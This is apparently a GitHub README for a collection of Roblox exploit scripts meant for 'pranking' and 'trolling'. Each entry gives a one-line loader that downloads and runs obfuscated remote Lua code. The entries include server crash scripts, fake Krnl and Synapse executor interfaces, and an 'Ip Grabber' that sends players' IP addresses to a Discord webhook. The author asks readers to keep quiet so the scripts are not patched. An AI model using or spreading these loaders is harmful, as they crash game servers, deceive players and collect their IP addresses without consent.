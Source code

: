 # About
I'll be posting my scripts and if I put someone elses into this repository that means it's either my friends script or a revamp of their script and I'll be adding the information into the readme.

The scripts will be put into sections. The scripts I put into here are meant for pranking in irl and trolling.
Don't go around talking about this before they get patched 💀 No one want's scripts to get patched ;)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Crash Script [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)

# Crash Script UI (FIRST ONE) [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

![banui](https://github.com/wtfplayer/redemption/assets/136761546/925472f3-942f-4eb3-983a-42e412d383ca)

# Crash Script v2 [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)
In the 2nd version the script will execute after 10 seconds

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua"))()
```

[SOURCE OBFUSCATED V2](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)


![nerds](https://github.com/wtfplayer/redemption/assets/136761546/852bf971-067c-4917-81b8-b05191a5ad1e)

# Position Finder [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts (If you don't know, the script I'm showing you is the revamp.)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

# Script Executor [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

![script (2)](https://github.com/wtfplayer/redemption/assets/136761546/f18a5942-9f39-4ab2-beec-a92bb7aefb12)

# Ip Grabber [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)
**Make sure to put a webhook to replace "url"** I didn't because I cant show my discord.

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)

![ipgrab](https://github.com/wtfplayer/redemption/assets/136761546/ba8c6f22-5a4e-4521-b86a-46561bb7de92)

# Krnl Ui [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

![2](https://github.com/wtfplayer/redemption/assets/136761546/831a5603-5ceb-4858-93d9-2516ee18dab5)

# Synapse Ui [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua)

![3](https://github.com/wtfplayer/redemption/assets/136761546/3afceb98-d8a1-4a6c-80a7-4b7478d15d85)

# Krnl No Ui Execute [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

![2](https://github.com/wtfplayer/redemption/assets/136761546/923dfda2-d61c-4773-9866-e63b98e0fcb3)

# Synape No Ui Execute [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapsenoui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/synapsenoui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapsenoui.lua)

![4](https://github.com/wtfplayer/redemption/assets/136761546/86e3bec0-76db-4706-b5db-693bc313f9af)

**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
